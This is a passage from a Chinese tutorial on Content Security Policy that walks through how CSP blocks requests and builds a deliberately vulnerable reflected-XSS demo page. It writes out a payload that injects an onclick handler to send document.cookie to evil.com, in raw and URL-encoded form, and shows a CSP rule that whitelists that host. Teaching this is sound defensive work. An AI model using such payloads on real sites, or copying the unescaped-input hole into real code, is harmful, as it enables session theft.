 这时候就可以执行内联的 js 快， 这时候如果再执行上面的 img 请求或者 fetch 请求的时候，就会报这个错

```text
Refused to load the image 'https://evil.com/?cookie=jenkins-timestamper-offset%3D-28800000' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'img-src' was not explicitly set, so 'default-src' is used as a fallback.

Refused to connect to 'https://evil.com/?cookie=jenkins-timestamper-offset%3D-28800000' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'connect-src' was not explicitly set, so 'default-src' is used as a fallback.
```
如果要允许的话，比如我允许使用 fetch 请求，那么就要添加 `connect-src` 的白名单
```text
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline'; connect-src 'self' evil.com">
```
这样子执行 img 的时候，依然报错， 但是执行 fetch 的时候，就正常了。


### 3. 模拟反射型 xss 的 demo
再构建一个具有反射型的 xss demo:
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>CSP Reflective xss test</title>
  </head>
  <body>
    这个是主页的跳转页面，为了防止是机器人，请求手动点击: <a></a>
  </body>
  <script>
    let pos = document.URL.indexOf("name=") + 5;
    document.getElementsByTagName("a")[0].outerHTML = `<a href='https://github.com/${decodeURIComponent(document.URL.substring(pos,document.URL.length))}'>点击到 github 主页</a>`
  </script>
</html>
```

> 本来想构建一个更简单的，比如 `http://localhost/csp_test/2.html?name=<script>alert(1)</script>`, 后面发现现代浏览器会将字符 `<` 和 `>` （转化为`%3C` 和 `%3E`）， 所以并不会触发反射型 xss， 所以换了一个稍微绕一点的事例

这个内容很简单， 就是输入 github 的用户名，然后点击连接，就可以到用户主页

正常的用法是:

![](6.png)

但是我可以构造一个参数来重新劫持点击事件，并且将 cookie 发送到 hacker 站点， 我们要构建的串是
```html
kebingzao' onclick='javascript:fetch(`https://evil.com/?cookie=${encodeURIComponent(document.cookie)}`);return false;'
```
然后通过 `encodeURIComponent` 变成
```html
kebingzao'%20onclick%3D'javascript%3Afetch(%60https%3A%2F%2Fevil.com%2F%3Fcookie%3D%24%7BencodeURIComponent(document.cookie)%7D%60)%3Breturn%20false%3B'
```
所以最后的效果就是

